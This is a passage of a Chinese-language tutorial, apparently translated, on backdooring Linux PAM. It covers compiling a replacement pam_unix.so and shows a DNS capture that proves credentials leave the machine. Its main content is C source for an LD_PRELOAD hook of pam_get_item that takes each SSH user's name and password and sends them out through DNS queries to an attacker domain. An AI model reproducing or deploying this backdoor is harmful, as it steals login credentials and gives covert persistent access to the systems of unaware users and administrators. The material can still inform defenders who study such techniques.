 编译该模块(./configure &amp;&amp; make)，用我们的版本替换原来的pam_unix.so，然后打开一个tcpdump/wireshark并通过SSH登录到机器中：

```
DNS    96    Standard query 0x6d43  A mothra.RabbitHunt3r.nowhere.local
```

很好！完成了一个DNS请求，因此我们可以将用户名和密码转储到由我们控制的外部服务器。但现在我们遇到了一个问题：在密码中使用大写/小写/符号(uppercase / lowercase / symbols)会发生什么？在后面的0x03一节中，我们将讨论这一点。



## 0x02 LD_PRELOAD

在某些情况下，需要采取另一种办法。如果服务器对关键二进制文件(如pam_unix.so和其他模块)或配置文件执行任何类型的文件完整性检查，则需要使用经典的LD_PRELOAD策略。我们将预加载一个共享对象，该对象挂接PAM使用的一些函数，因此我们可以轻松地将我们的退出逻辑注入其中。

我们的目标函数将是pam_get_Item。当以项类型PAM_AUTHTOK作为参数调用此函数时，它检索所使用的身份验证令牌。我们将hook这个函数，因此当调用它时，我们将调用pam_get_user()来检索用户名，然后调用原始pam_get_Item(获得正确的返回值和身份验证令牌)，通过DNS将其过滤掉，最后返回之前获得的值。

```
/* Classic LD_PRELOAD PAM backdoor with DNS exfiltration */
// Author: Juan Manuel Fernandez (@TheXC3LL)

#define _GNU_SOURCE

#include &lt;security/pam_modules.h&gt;  
#include &lt;security/pam_ext.h&gt;  
#include &lt;security/pam_modutil.h&gt;  
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;sys/types.h&gt; 
#include &lt;unistd.h&gt;
#include &lt;stdio.h&gt; 
#include &lt;dlfcn.h&gt; 
#include &lt;sys/stat.h&gt;
#include &lt;signal.h&gt;

// Insert here all the headers and functions needed for the DNS request
//(...)


typedef int (*orig_ftype) (const pam_handle_t *pamh, int item_type,  const void **item);

int pam_get_item(const pam_handle_t *pamh, int item_type, const void **item) `{`  
    int retval;
    int pid;
    const char *name; 
    orig_ftype orig_pam;
    orig_pam = (orig_ftype)dlsym(RTLD_NEXT, "pam_get_item"); 

    // Call original function  so we log password
    retval = orig_pam(pamh, item_type, item);

    // Log credential
    if (item_type == PAM_AUTHTOK &amp;&amp; retval == PAM_SUCCESS &amp;&amp; *item != NULL) `{`   
        unsigned char hostname[256];
        get_dns_servers();
        pam_get_user((pam_handle_t *)pamh, &amp;name, NULL);
        snprintf(hostname, sizeof(hostname), "%s.%s.nowhere.local", name, *item); // Change it with your domain
        if (fork() == 0) `{`
            ngethostbyname(hostname, T_A);
        `}`
    `}`   

    return retval; 
`}`
```
